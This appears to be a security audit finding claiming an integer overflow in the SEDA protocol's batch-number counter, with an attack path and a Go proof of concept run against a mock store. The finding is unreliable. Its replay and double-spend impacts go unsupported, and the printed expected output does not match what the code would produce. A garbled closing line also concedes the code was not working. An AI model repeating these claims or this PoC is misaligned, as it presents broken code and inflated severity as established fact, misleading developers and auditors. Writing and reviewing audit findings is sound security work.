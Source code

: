 Clean Pine Anteater

Medium

# Malicious Actor will Compromise Blockchain Integrity through Batch Numbering Overflow

### Summary

The integer overflow vulnerability in batch number incrementing will cause a catastrophic data integrity breach for blockchain users as malicious actors will exploit the batch number wrap-around to overwrite transaction history and execute signature replay attacks.

### Root Cause

In `[keeper/batch.go:20-23](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/batching/keeper/batch.go#L20)` the incrementCurrentBatchNum function fails to check for overflow before adding 1 to the current batch number:
```go
Copyfunc (k Keeper) incrementCurrentBatchNum(ctx context.Context) (uint64, error) {
    next, err := k.currentBatchNumber.Next(ctx)
    return next + 1, err
}
```

### Internal Pre-conditions

1. The batch number counter (currentBatchNumber) needs to reach the maximum value of uint64 (18,446,744,073,709,551,615)
2. The system must continue operating normally when processing the batch after this maximum value
3. The attacker needs sufficient permissions to submit a batch creation request or transaction

### External Pre-conditions

1. No external system is monitoring for suspicious jumps in batch numbers
2. No alert mechanisms are in place to detect when the counter approaches its maximum value

### Attack Path

1. Attacker waits for or accelerates the batch counter approaching maximum uint64 value
2. When counter equals max uint64, attacker triggers creation of a new batch
3. The increment function adds 1 to the maximum value, causing overflow to 0
4. Attacker creates a new batch with batch number 0, which passes validation
5. Attacker submits specific transactions designed to overwrite critical data from original batch 0
6. Attacker reuses signatures from original batch 0 to authenticate malicious transactions
7. System accepts these transactions because batch numbers and signatures appear valid
8. Attacker continues to create batches with previously used batch numbers, systematically corrupting historical data

### Impact

The blockchain platform and its users suffer catastrophic data integrity loss and potential financial theft. The attacker gains the ability to:

1. Overwrite transaction history
2. Execute replay attacks using old signatures
3. Corrupt merkle trees and validation proofs
4. Potentially double-spend or reverse finalized transactions
5. Undermine the entire trustworthiness of the blockchain

### PoC




## Test Setup

First, let's create a simplified test environment that mimics the vulnerable code. This will help demonstrate the issue clearly:

```go
package main

import (
	"context"
	"fmt"
	"math"
)

type MockBatchStorage struct {
	currentValue uint64
	batches      map[uint64]string // Simulate batch storage
}

func NewMockStorage() *MockBatchStorage {
	return &MockBatchStorage{
		currentValue: 0,
		batches:      make(map[uint64]string),
	}
}

func (m *MockBatchStorage) Next(ctx context.Context) (uint64, error) {
	val := m.currentValue
	m.currentValue++
	return val, nil
}

func (m *MockBatchStorage) SetBatch(batchNum uint64, data string) {
	m.batches[batchNum] = data
}

func (m *MockBatchStorage) GetBatch(batchNum uint64) (string, bool) {
	data, exists := m.batches[batchNum]
	return data, exists
}

// Vulnerable function (same as in the original code)
func incrementCurrentBatchNum(storage *MockBatchStorage, ctx context.Context) (uint64, error) {
	next, err := storage.Next(ctx)
	return next + 1, err
}

// Function to demonstrate the exploit
func demonstrateOverflowExploit() {
	ctx := context.Background()
	storage := NewMockStorage()
	
	// Simulate the system operating normally
	fmt.Println("--- Normal Operation ---")
	
	// Create some initial batches
	batchNum1, _ := incrementCurrentBatchNum(storage, ctx)
	storage.SetBatch(batchNum1, "Original Batch 1 Data")
	fmt.Printf("Created Batch #%d with data: %s\n", batchNum1, "Original Batch 1 Data")
	
	batchNum2, _ := incrementCurrentBatchNum(storage, ctx)
	storage.SetBatch(batchNum2, "Original Batch 2 Data")
	fmt.Printf("Created Batch #%d with data: %s\n", batchNum2, "Original Batch 2 Data")
	
	// Simulate time passing, system continues operating...
	fmt.Println("\n--- Fast Forward to Near uint64 Maximum ---")
	
	// Manually set the counter to near the maximum to simulate a long-running system
	storage.currentValue = math.MaxUint64 - 2
	
	// Create one more normal batch
	batchNumNearMax, _ := incrementCurrentBatchNum(storage, ctx)
	storage.SetBatch(batchNumNearMax, "Last Normal Batch Data")
	fmt.Printf("Created Batch #%d with data: %s\n", batchNumNearMax, "Last Normal Batch Data")
	
	// Now the critical part - integer overflow occurs
	fmt.Println("\n--- Triggering Integer Overflow ---")
	
	// This will cause the overflow
	overflowBatchNum, _ := incrementCurrentBatchNum(storage, ctx)
	storage.SetBatch(overflowBatchNum, "Batch After Overflow")
	fmt.Printf("Created Batch #%d with data: %s\n", overflowBatchNum, "Batch After Overflow")
	
	// The exploit: Attacker can now create a batch that collides with an existing batch number
	fmt.Println("\n--- Exploit Demonstration: Batch Collision ---")
	
	// Next batch after overflow will be 1, which likely exists already
	exploitBatchNum, _ := incrementCurrentBatchNum(storage, ctx)
	
	// Check if original data exists for this batch number
	originalData, exists := storage.GetBatch(exploitBatchNum)
	if exists {
		fmt.Printf("Found existing Batch #%d with data: %s\n", exploitBatchNum, originalData)
	}
	
	// Attacker overwrites the data for this batch number
	maliciousData := "MALICIOUS DATA - ORIGINAL BATCH OVERWRITTEN"
	storage.SetBatch(exploitBatchNum, maliciousData)
	fmt.Printf("Exploited: Overwrote Batch #%d with: %s\n", exploitBatchNum, maliciousData)
	
	// Verify the exploit worked by retrieving the batch data
	newData, _ := storage.GetBatch(exploitBatchNum)
	fmt.Printf("Batch #%d now contains: %s\n", exploitBatchNum, newData)
	
}

func main() {
	demonstrateOverflowExploit()
}

Expected result:
--- Normal Operation ---
Created Batch #1 with data: Original Batch 1 Data
Created Batch #2 with data: Original Batch 2 Data

--- Fast Forward to Near uint64 Maximum ---
Created Batch #18446744073709551615 with data: Last Normal Batch Data

--- Triggering Integer Overflow ---
Created Batch #0 with data: Batch After Overflow

--- Exploit Demonstration: Batch Collision ---
Found existing Batch #1 with data: Original Batch 1 Data
Exploited: Overwrote Batch #1 with: MALICIOUS DATA - ORIGINAL BATCH OVERWRITTEN
Batch #1 now contains: MALICIOUS DATA - ORIGINAL BATCH OVERWRITTEN

It was provided here and not in another code block it because it was not working
```



